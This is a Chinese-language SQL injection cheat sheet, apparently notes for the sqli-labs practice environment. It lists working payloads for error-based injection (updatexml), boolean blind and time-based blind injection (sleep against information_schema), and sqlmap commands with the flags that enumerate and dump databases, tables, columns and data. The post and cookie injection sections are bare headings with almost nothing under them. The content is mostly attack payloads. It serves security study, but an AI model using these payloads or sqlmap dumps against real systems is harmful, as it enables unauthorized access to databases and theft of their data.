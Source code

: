 ##### 报错注入
前提：页面会显示数据库报错信息。
得到报错信息、获取所有数据库名、获取指定数据库所有表名、获取指定数据库指定表中所有字段名、获取具体数据。

数据库名
?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1) --+
##### 布尔盲注
情况：没有显示位、没有报错信息，但是有SQL语句执行错误信息输出的场景，仅仅通过报错这一行为去判断SQL注入语句是否执行成功。

数据库长度
?id=1' and (length(database()))>7 --+	
?id=1' and (length(database()))>8 --+
##### 时间盲注
前提：页面上没有显示位，也没有输出SQL语句执行错误信息。 正确的SQL语句和错误的SQL语句返回页面都一样，但是加入sleep(5)条件之后，页面的返回速度明显慢了5秒。
缺点：因为是通过sleep()函数影响的响应时间来判断语句是否执行，所以比布尔盲注更慢，真实环境下时间盲注一个注入点需要跑大概五六个小时。

猜解数据库
数据库个数
?id=1 and if((select count(schema_name) from information_schema.schemata)=9,sleep(5),1)

第一个数据库名有多少个字符
?id=1 and if((select length(schema_name) from information_schema.schemata limit0,1)=18,sleep(5),1)  

##### sqlmap注入
基础探测命令
联合查询注入：

.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=U -v 3
报错注入：

.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=E -v 3
布尔盲注：

.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=B -v 3
时间盲注：

.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=T -v 3
爆破数据
--current-db 当前使用的数据库  
--dbs 列出数据库信息  
-D 指定数据库，爆破指定数据库中的表  
-D 数据库名 --tables  
-T 指定数据表名，爆破指定表中的字段  
-D 库名 -T 表名 --columns  
-C 指定字段名，爆破具体数据  
--dump 将数据导出、转储  

指定库、表、字段，查询具体数据  
.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=T -v 3 -D  

##### post注入

用 # 注释  

##### cookie注入
